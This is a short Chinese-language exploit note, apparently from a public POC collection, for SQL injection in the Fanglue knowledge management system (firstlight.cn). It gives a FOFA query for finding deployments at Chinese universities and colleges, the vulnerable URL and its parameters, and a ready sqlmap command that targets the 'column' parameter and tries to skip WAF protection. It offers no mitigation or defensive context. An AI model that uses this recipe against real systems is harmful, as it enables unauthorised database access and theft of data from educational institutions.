 ```yaml
---
title: 方略知识管理系统SQL注入
---
```


# 方略知识管理系统SQL注入

## FOFA

```
host="firstlight.cn" && country="CN" && (title="大学" || title="学院")
```

## 漏洞地址

验证是否存在无限制访问，访问路径

```
/Customer/content.aspx?column=&kind=&wd=111&kkk=1&kf=1&field=1
```

## 漏洞POC

```
python3 sqlmap.py -u "http://xxxx.firstlight.cn/Customer/content.aspx?column=&kind=&wd=111&kkk=1&kf=1&field=1" -p "column" --random-agent --batch --no-cast -skip-waf
```

![](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/image-20240624190455747.png)
